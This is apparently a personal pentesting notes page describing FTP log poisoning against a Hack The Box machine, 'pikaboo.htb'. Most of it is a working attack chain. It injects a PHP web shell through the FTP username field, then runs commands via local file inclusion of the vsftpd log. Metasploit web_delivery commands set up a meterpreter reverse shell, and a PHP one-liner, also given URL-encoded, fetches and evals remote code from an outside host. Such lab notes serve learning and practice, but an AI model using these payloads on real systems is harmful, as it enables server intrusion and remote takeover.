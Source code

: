 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[FTP log poisoning]]  
___

## Description:  

Server must be running ftp and have a LFI vuln.
 
Connect to the ftp server and run in the name field:
`'<?php system($_GET['c']); ?>'`

add a &c=command to the end of your URL to run commands:
`http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log&c=ifconfig`

### metasploit shell
Use web delivery to get a shell

```
msfconsole

use exploit/multi/handler

use exploit/multi/script/web_delivery

set target 1

set payload php/meterpreter/reverse_tcp

set uripath /

set srvhost 10.10.14.79

set lhost 10.10.14.79

run
```

Copy and paste the command in msfconsole in your web browser:
`php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.14.79:8080/', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"`

`http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log&c=php%20-d%20allow_url_fopen=true%20-r%20%22eval(file_get_contents(%27http://10.10.14.79:8080/%27,%20false,%20stream_context_create([%27ssl%27=%3E[%27verify_peer%27=%3Efalse,%27verify_peer_name%27=%3Efalse]])));%22`

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (03:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
